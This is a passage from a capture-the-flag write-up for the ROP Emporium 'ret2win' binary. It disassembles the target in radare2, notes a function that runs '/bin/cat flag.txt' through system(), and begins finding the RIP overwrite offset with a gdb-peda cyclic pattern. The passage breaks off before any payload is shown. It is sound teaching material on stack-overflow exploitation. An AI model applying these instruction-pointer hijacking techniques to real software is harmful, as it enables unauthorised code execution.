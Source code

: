 ```bash
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
0x00400840    4 101          sym.__libc_csu_init
0x004008b0    1 2            sym.__libc_csu_fini
0x004008b4    1 9            sym._fini
[0x00400650]> 

```
So, we have a `sym.ret2win`, `sym.pwnme` and a `sym.main` which will be our focus for the rest. Since it's a ROP challenge and checking the functions one by one with `pdf @sym.ret2win` in radare2 shell. 

```bash
[0x00400650]> pdf @sym.ret2win
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:" ; const char * format
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt" ; const char * string
|           0x00400829      e8b2fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret

```

We see that there is a string with **/bin/cat flag.txt** and a system function call of C, in case you don't know what `system` does, it executes the arguments as bash command. 

Since we want to jump to address `0x00400811` in order to execute above function which will print our flag. In order to execute this we need to find the offset that we need to overwrite the instruction pointer. In this case, it is a 64-bit ELF we have to find **RIP** if it was 32-bit ELF we had to find **EIP**. Let's try to create a pattern offset uding gdb.

```bash
robin@oracle:~/ROP-Emporium$ gdb ret2win
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ret2win...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
```